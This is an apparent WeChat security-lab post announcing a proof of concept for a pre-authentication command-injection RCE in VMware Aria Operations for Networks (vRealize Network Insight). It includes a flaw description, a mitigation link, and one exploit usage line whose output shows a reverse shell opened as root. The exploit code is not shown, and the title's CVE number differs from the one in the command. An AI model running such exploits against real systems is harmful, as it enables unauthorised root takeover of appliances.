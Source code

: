 #  POC速递 - VMWare RCE CVE-2023-2087

[ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

___发表于_

收录于合集

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224426.png)

        VMWare Aria Operations for Networks (vRealize Network Insight) 在通过 Apache Thrift RPC 接口接受用户输入时容易受到命令注入的攻击。此漏洞允许远程未经身份验证的攻击者以 root 用户身份在底层操作系统上执行任意命令。RPC 接口受可以绕过的反向代理保护。VMware 已将此问题的严重性评估为处于严重严重性范围内，最高 CVSSv3 基本分数为 9.8。恶意行为者可以在设备的“root”上下文中远程执行代码。VMWare 6.x 版本易受攻击。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224427.png)

  *   *   *   *   *   *   *   *   *   * 

    
    
    python CVE-2023-20887.py --url https://192.168.116.100 --attacker 192.168.116.1:1337VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCE || Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)(*) Starting handler(+) Received connection from 192.168.116.100(+) pop thy shell! (it's ready)sudo bashiduid=0(root) gid=0(root) groups=0(root)hostnamevrni-platform-release

  

缓解措施

https://www.vmware.com/security/advisories/VMSA-2023-0012.html

  

POC下载地址

点击下方名片进入公众号、回复关键字【0616】获取下载链接

  

免责声明：本项目仅用于教育和道德测试。在未经事先相互同意的情况下使用此工具攻击目标是非法的。开发者不承担任何责任，也不对本工具造成的任何误用或损害负责。

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

